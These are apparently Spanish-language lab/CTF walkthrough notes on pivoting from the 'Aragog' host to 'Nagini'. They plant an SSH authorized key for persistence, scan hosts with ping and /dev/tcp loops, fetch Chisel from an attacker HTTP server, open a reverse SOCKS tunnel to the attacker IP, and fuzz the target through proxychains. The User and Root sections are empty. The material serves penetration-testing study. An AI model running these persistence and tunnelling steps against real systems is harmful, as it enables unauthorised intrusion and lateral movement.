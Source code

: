 ## Summary

Tags: #Pivoting #Linux #Fuzzing #HTTP3 #Chisel #Proxychains 

- IP ->  10.10.0.129
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> 
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Pivoting desde Aragog hacia Nagini

Siendo root primero debemos de garantizar el acceso directo a la maquina 'Aragog' y lo haremos colocando con un acceso ssh. 
```bash 
❯ cd /root/ 
❯ cd .ssh/           # Aqui crearemos una 'Authorized Key' publica para podernos conectar y tener una persistencia de acceso directo 
```

En nuestra maquina de atacante nos vamos a crear una clave publica y una clave privada 
```bash 
❯ ssh-keygen                                                     # Creamos una clave publica y una clave privada en nuestra maquina de atacante 
❯ cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip           # Miramos el contenido de nuestra clave publica    
	# ~ = /home/omar/...
	# tr = Quitar el salto de linea
	# xclip = Copiarno el output en la clipboard

# El resultado lo pegaremos en el archivo que crearemos con nombre 'authorized_keys' en la ruta de la maquina victima que es /root/.ssh
❯ nano authorized_keys
```

Una vez garantizado el acceso, procedemos a realizar lo siguiente:
Siendo root miramos las interfaces 
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP de las interfaces 

# Podemos observar que hay dos interfaces, primera con la 192.168.111.38 y la segunda con la IP 10.10.0.128 
```

```bash 
❯ cd /tmp/                                   # Este directorio tiene privilegios de lectura y escritura, por lo que ahi podemos crear scripts
```

Crearemos un archivo llamado 'HotsDiscovery.sh' que nos ayude a ver la trazas ICMP para descubrir las demás interfaces. 
Para ir descubriendo interfaces con el comando ping 
```bash 
!#/bin/bash 

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVE" &
done; wait  
```

Le damos permisos de ejecución
```bash 
❯ chmod +x HotsDiscovery.sh       # Le damos permisos de ejecucion 
❯ ./HotsDiscovery.sh              
```

Por si el comando ping no esta disponible, podemos hacerlo por los puertos mas comunes 
```bash
!#/bin/bash 

for i in $(seq 1 254); do
	for port in 21 22 80 443 445 8080; do
		timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN" &
	done 
done; wait 

# Ejecutamos y logramos encontrar la IP 10.10.0.129 de la maquina Nagini
```


Para poder llegar a la IP 10.10.0.129 desde nuestra maquina de atacante, podemos usar **Chisel** la cual nos creara un túnel 

1. Descargamos Chisel a nuestra maquina de atacante 'Chisel > Releases > chisel_1.8.1_linux_amd64.gz'
* [Chisel](https://github.com/jpillora/chisel)

2. Descomprimimos y le damos permisos de ejecución 
```bash 
❯ gunzip <file.gz>                           # Para descompirmir archivos gzip
❯ chmod +x chisel
```

3. Lo transferimos a la maquina victima mediante un servidor HTTP 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

4. Desde la maquina victima lo descargamos de la siguiente manera 
```bash
❯ wget http://❮IP❯/chisel                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```

5. Lo ejecutamos de la siguiente manera para hacer que solo se abra una sola sesión principal que será la de la maquina de atacante. 
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante', nuestra IP es 192.169.111.106
❯ ./chisel client 192.168.111.106:1234 R:socks # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante 
```

```bash
❯ lsof -i:80                                # Para ver que servicio esta ocupando cierto puerto
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nano /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

## Recon

Forma de verificar e iniciar el reconocimiento de los puertos abiertos en la maquina Nagini
```bash 
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 

	# P = Tareas en paralelo
# Solo nos muestra los puerto 22 y 80 abiertos 
```

* Siempre debemos de usar **'proxychains'** cuando queramos usar un comando en un túnel. 
```bash 
❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```

Para ver la web de la maquina victima en el Túnel. Debemos de configurar el **'Foxy Proxy'** de nuestro navegador Firefox:
```bash 
Name = Nagini
Proxy Type = SOCKS5
Proxy IP = 127.0.0.1
Port = 1080
```

Para poder hacer Fuzzing en el túnel, lo debemos de hacer de la siguiente manera. 
```bash
❯ gobuster dir -u http://10.10.0.129 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt --proxy socks5://127.0.0.1:1080

	# dir -> Modo enumeracion directorios y archivos 
	# u -> Colocamos la url
	# t -> Lanzar peticiones en paralelo al mismo tiempo
	# w -> Ruta del diccionario
	# proxy = Indicamos que hay un proxy de tipo socks5 asi como en donde se encuentra en nuestra maquina
	# x = Buscar archivos con las extensiones html, php, txt

# Encontramos un index.html, note.txt, joomla
```

```bash 
❯ ./chisel client 192.168.111.106:1234 R:socks R:443:10.10.0.129:443/udp      # Cliente 'Maquina victima', nos traemos adicionalmente el puerto 443 de la maquina victima 
```

En note.txt nos dicen que se esta usando un **'HTTP3'** 

```bash
# Ruta para poder ejecutar el http3-client /home/user/quiche/target/debug/examples

❯ ./http3-client ❮https://127.0.0.1❯
```



## User


## Root